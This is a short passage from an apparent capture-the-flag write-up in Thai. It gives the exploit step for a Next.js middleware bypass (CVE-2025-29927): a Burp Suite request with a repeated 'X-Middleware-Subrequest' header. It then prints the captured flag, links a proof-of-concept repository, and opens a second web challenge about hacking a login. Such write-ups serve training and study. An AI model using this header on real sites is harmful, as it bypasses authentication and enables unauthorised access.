 ![4.png](./images/4.png)

โยนลง burp suite แล้วเพิ่ม `X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware` ลง header

`flag{CVE-2025-29927_3b9950ce0ea6cc9c1666f2598bd8aca1}`

::github{repo="MuhammadWaseem29/CVE-2025-29927-POC"}

# Web 2

_แฮกเว็บเพื่อเข้าสู่ระบบ_

![22.png](./images/22.png)
